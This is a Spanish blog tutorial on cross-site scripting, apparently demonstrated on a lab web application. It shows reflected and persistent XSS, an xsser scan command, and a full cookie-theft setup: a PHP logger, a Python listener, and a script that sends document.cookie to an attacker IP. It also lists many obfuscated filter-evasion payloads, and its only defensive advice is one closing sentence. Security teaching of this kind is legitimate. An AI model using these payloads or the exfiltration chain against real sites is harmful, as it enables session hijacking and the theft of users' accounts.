 ```yaml
---
date: 2023-01-01T04:23:05.000Z
layout: post
comments: true
title: Cross Site Scripting (XSS)
subtitle: 'Secuencias de comandos en sitios cruzados'
description: >-
image: >-
    http://imgfz.com/i/NSOtC6A.jpeg
optimized_image: >-
    http://imgfz.com/i/NSOtC6A.jpeg
category: ciberseguridad
tags: 
  - hacking
  - exploit
  - vulnerabilidad
  - reflejado
  - robo
  - cookie
  - persistente
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es una vulnerabilidad que permite a un atacante controlar parte del contenido de una aplicación web, al explotar un XSS, el atacante puede realizar algunas de las siguientes opciones:

* Modificar contenido de el sitio.
* Inyectar contenido malicioso.
* Robar cookies de sesión.
* Realizar acciones en la aplicación web como si fuera un usuario legítimo.
* Entre otros.

Las vulnerabilidades XSS se producen cuando una aplicación web utiliza entradas de usuario no filtradas para construir el contenido de salida que se muestra a sus usuarios finales; esto permite a un atacante controlar el código HTML y JavaScript de salida, en donde la entrada de uso es cualquier parámetro procedente del lado del cliente de la aplicación web como por ejemplo:

* La peticiones en las cabeceras.
* Las cookies.
* Entradas de un formulario.
* Parámetros POST y GET.

### Identificación de Vulnerabilidad

La forma más simple de verificar un Cross Site Scripting es por medio de la siguiente inyección:

```js
<script>alert('XSS')</script>
```

![xsssimpletest1](/images/xsstest1.png)

![xsssimpletest2](/images/xsstest1result.png)

Otra opción de verificación es por medio de la herramienta ```xsser```, en donde por medio de ```Burpsuite``` se consigue el target siguiente:

![burpxss](/images/xsstest1burp.png)

En la parte en que dice "test", se reemplaza por "XSS" y ejecutamos ```xsser``` con los siguiente parámetros:

```bash
┌──(root㉿kali)-[/XSS]
└─ xsser --url 'http://10.1.1.37/multillidae/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

Y como se aprecia encontró la vulnerabilidad existente en este sitio web:

![xssertest1](/images/xsstest1xsser.png)

Otras opciones que se pueden tener en consideración son las siguientes:

|Opción   |Descripción  |
|-------------|----------|
|--auto|Aplica múltiples payloads para verificar la vulnerabilidad.|
|--Fp|Con este parámetro se puede testear un payload propio, ocupando la siguiente forma como ejemplo, ``` --Fp "<script>alert('XSS')</script>"``` |

Para este caso se habla de un XSS reflejado, pues los ataques reflejados se producen cuando la carga maliciosa se transporta dentro de la solicitud que el navegador de la víctima envía al sitio web vulnerable.

Pueden desencadenarse mediante la publicación de un enlace en una red social o a través de una campaña de phishing. Cuando los usuarios hacen clic en el enlace, desencadenan el ataque.

#### Ejemplo 2 de XSS Reflejado

Otra opción para explotar un XSS reflejado, es por medio del URL, como sucede en la siguiente situación:

![xssurl](/images/xsstest1url.png)

Para esta situación se pueden aplicar cierto filtros de URL Encode:

![xssurlencode](/images/xsstest1url2.png)


### XSS Persistente

Los ataques XSS persistentes se producen cuando la carga útil se envía al servidor web vulnerable y luego se almacena, es decir, el código malicioso se entrega cada vez que un navegador web accede a la página web inyectada.

Un ejemplo es el siguiente en que siempre mostrará la cookie de sesión del usuario, las veces que se ingrese a la web:

![xsssimplecookie](/images/xsstest2.png)

![xsssimplecookieresonse](/images/xsstest2persistentone.png)

Y si se recarga la web infectada, seguiremos recibiendo como una respuesta persistente la cookie de sesión:

![xsssimplecookiereload](/images/xsstest2reload.png)

![xsssimplecookiereloadpersist](/images/xsstest2reloadpersist.png)


### XSS Robo de Cookie

Tal como se mostró en el ejemplo anterior existe la opción de que por medio de un Cross Site Scripting se roben cookies de sesión, pero para esta situación enviaremos las cookies a un servidor que simule el del atacante, a través del siguiente archivo en php:

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

Luego para poder recibir las cookies nos montamos un servidor con python verificando que en la carpeta en que se inicie se encuentre el archivo ```log.php```:

```bash
┌──(root㉿kali)-[/XSS]
└─ ls
log.php

┌──(root㉿kali)-[/XSS]
└─ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Para este ejemplo inyectaremos el siguiente payload, el cual genera un objeto imagen y apunta su "src" a un script en el servidor del atacante (10.1.1.19):

```js
<script>var i = new Image(); i.src="http://10.1.1.19/log.php?q="+document.cookie;</script>
```

![xssservercookie](/images/xsstest3.png)

Y recibimos la cookie en nuestro servidor:

![xssservercookieresponse](/images/xsstest2pythonrec.png)

Este se recibirá las veces que se ingrese a la página web atacada:

![xssservercookiereload](/images/xsstest3reload.png)

![xssservercookiereloadpy](/images/xsstest3reloadpython.png)

### Evasión de filtros

```

<svg><circle><set onbegin=prompt(1) attributename=fill>
["');alert('XSS');//"]@xyz.xxx
</SCRIPT>">'><SCRIPT>alert(String.fromCharCode(100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101))</SCRIPT>
%22%3E%3Csvg%20onload%3dalert%26%230000000040%22100%22)%3E
a%22%20accesskey%3d%22x%22%20onclick%3d%22alert(document.domain)%22%20test%3d%22test%3dxss
\u003e\u003cimg src=1 onerror=alert(0)\u003e
<abdool attr=" --- x="=='='onmouseover=confirm`abdool` style="display:block;width:1000px;height:1000px;background:red">
payload : test"><img src=x on0x=1 onerror=alert(/POC/)>
<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ==")>
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``^1//
javaScRipt:Alert(‘1’)
<svg onload=eval(location.hash.slice(1))>
"><svg/onload=alert%26%230000000040"Hacked")>
<iframe src="data:image/svg+xml;base64,CjxzdmcgeG1sbnM9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIj4KICA8aW1hZ2UgaHJlZj0ieCIgb25lcnJvcj0iamF2YXNjcmlwdDphbGVydCgncHduZWQgZXJuYW5zJykiIC8+Cjwvc3ZnPg=="/>
"><BODy onbeforescriptexecute="x1='cookie';c=')';b='a';location='jav'+b+'script:con'+'fir\u006d('+'document'+'.'+x1+c">
test"%20onmouseover="prompt%26%2300000000000000000040;%27XSS%27%26%2300000000000000000041;

```

### Recomendación

Todos estos canales de entrada deben ser validados por el servidor mediante funciones de seguridad bien implementadas que deben desinfectar o filtrar la entrada de los usuarios.
